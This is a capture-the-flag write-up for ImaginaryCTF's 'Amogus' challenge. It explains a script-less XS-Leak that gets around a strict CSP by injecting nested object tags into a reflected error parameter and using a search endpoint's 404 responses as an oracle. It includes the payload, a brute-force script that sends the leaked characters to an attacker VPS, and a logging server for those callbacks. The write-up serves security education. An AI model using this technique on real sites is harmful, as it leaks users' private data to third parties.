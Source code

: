# Amogus (14 Solves)

Amogus was an XS-Leak challenge from ImaginaryCTF with a **strict** CSP to block any potential XSS. CSP was being set by employing Nginx to setup a response header: 

```
add_header Content-Security-Policy "sandbox allow-forms allow-same-origin; img-src *; default-src none; style-src 'self'; script-src none; object-src http: https:; frame-src http: https:;" always;
```

# Limited XSS in auth.supersus.corp

The endpoint allows us to inject arbitary code by employing the ```/?error= ```
```python
@app.route('/', methods=["GET", "POST"])
def login():
    if request.method == "GET":
        error = request.args.get("error", "")
        return make_response(env.get_template("login.html").render(error=error))
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]

        user = User.query.filter_by(username=username).first()

        if user and user.password == password:
            return redirect(f"http://mail.supersus.corp/auth?auth={password}")
        else:
            error = "Invalid username or password."
            return redirect(url_for("login", error=error))
```


# The Exploit Technique

Our core technique is script-less, abusing the ```object-src``` CSP directive. Since the search endpoint on **auth.supersus.corp** will return a 404 if the char was not found, we can use it as an oracle:

```python
@app.route("/emails/<int:user_id>")
def view_emails(user_id):
    user = User.query.get_or_404(user_id)

    if not "auth" in request.cookies or request.cookies["auth"] != user.password:
        return "Unauthorized", 404

    keyword = request.args.get("search", "")
```

By using the following script-less payload:

```js
http://auth.supersus.corp/?error="><object data="http://mail.supersus.corp/emails/1?search=ictf{"><object data="http://VPS/?error"></object></object>
```

In this case if ```http://mail.supersus.corp/emails/1?search=ictf{NOTFOUND``` is not found we will get a hit on our attacker controlled domain.


# Leaking the flag

Now that we have an oracle for our search, I came up with the following script to leak the flag char by char. 
```python
from pwn import *
import string
import time
import requests

url = "http://VPS/log.txt"
base_payload = 'http://auth.supersus.corp/?error="><object data="http://mail.supersus.corp/emails/1?search={}"><object data="http://52.39.251.152:8080/{}"></object></object>'

charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
flag = "ictf{"

while True:
    for char in charset:
        temp_flag = flag + char
        print(f'trying {temp_flag}')
        payload = base_payload.format(temp_flag, temp_flag)
        r = remote("amogus-admin-bot.chal.imaginaryctf.org", 1337)
        print(r.recv())
        r.sendline(payload)
        time.sleep(2)
        # check if it's found or not
        try:
            x = requests.get(url).text
            if temp_flag not in x:
                flag += char
                print(flag)
                break
        except Exception as e:
            print("Error:", e)

```

From the server side, I made a simple Python http server which appends to a text file each time there's an 404: 

```python
#!/usr/bin/env python3
from http.server import HTTPServer, SimpleHTTPRequestHandler, test
import sys

class CORSRequestHandler(SimpleHTTPRequestHandler):
    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')
        self.send_header('Content-Type', 'text/html')
        SimpleHTTPRequestHandler.end_headers(self)

    def send_error(self, code, message=None, explain=None):
        if code == 404:
            self.log_error("404 Not Found: %s", self.path)
            self.log_message("path is not correct (not found): %s", self.path)
            with open('log.txt', 'a') as log_file:
                log_file.write(f"{self.path}\n")

        super().send_error(code, message, explain)

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer, port=int(sys.argv[1]) if len(sys.argv) > 1 else 8000)
```

It took a while to run but eventually we got the flag

![image](https://github.com/ixSly/CTFs/assets/32583633/a1b6aa75-d7a5-4a02-b5d0-6d0fabaabcc8)


